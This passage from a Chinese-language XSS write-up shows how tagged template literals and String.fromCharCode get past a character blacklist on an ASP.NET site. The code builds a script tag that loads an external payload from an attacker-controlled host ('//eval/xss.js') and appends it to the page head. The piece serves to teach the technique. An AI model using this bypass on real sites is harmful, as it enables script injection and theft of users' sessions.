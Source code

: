 反引号有一个重要特性，它可以用来执行JavaScript表达式，`${}`的变量会被插入到字符串中.例如:

```
var text = `Hello from ${document.domain}`
console.log(text)
>>> Hello from blog.isec.pl
```

这种方法可以用来代替`+`拼接字符串，例如:

```
console.log(`${'a'}${'b'}${'c'}`)
>>> abc
```

反引号还使我们摆脱的括号.我保证大伙肯定用过

```
alert`1`
```

让我们用这个技巧来创建一个`script`标签:

```
js=document.createElement('script')
js=document.createElement`script`
```

创建script元素后，还需要设置src使其指向外部的XSS payload。

由于太多字符列入了黑名单，所以我们用创造了一种通用的方法动态加载我们的外部主机 XSS payload。

另外，ASP.NET的`cookieless session ID`有长度限制，得从其他地方加载JavaScript脚本来绕过。

在VPS上挂一个写了`alert(document.domain)`的脚本，假设路径为`http://eval/xss.js`

当script标签创建的时候，我们需要他的`src`指向外部的XSS payload。

```
js.src='//eval/xss.js'
```

斜杠被禁用了，可以通过`String.fromCharCode`绕过.用``String.fromCharCode`47` ``绕过`\`，并且将其拼接起来。

```
js.src=`${String.fromCharCode`47`}${String.fromCharCode`47`}eval${String.fromCharCode`47`}XSS.JS`
```

现在我们还需要一个地方放script标签，比如`head`就不错。

```
headEl=document.getElementsByTagName`head`[0];
```

然后我们需要调用`headEl.appendChild(js)` ，然而，事实却出乎意料:

让我们回到``alert`1` ``的例子.尽管它可以像字符串一样工作，但是当我们传入js表达式的时候，他会产生非常意外的结果。

```
alert`${1}`
```

弹出了一个逗号，而不是预期中的1，事实证明，``alert(`${1}`) ``与``alert`${1}` ``不一样。
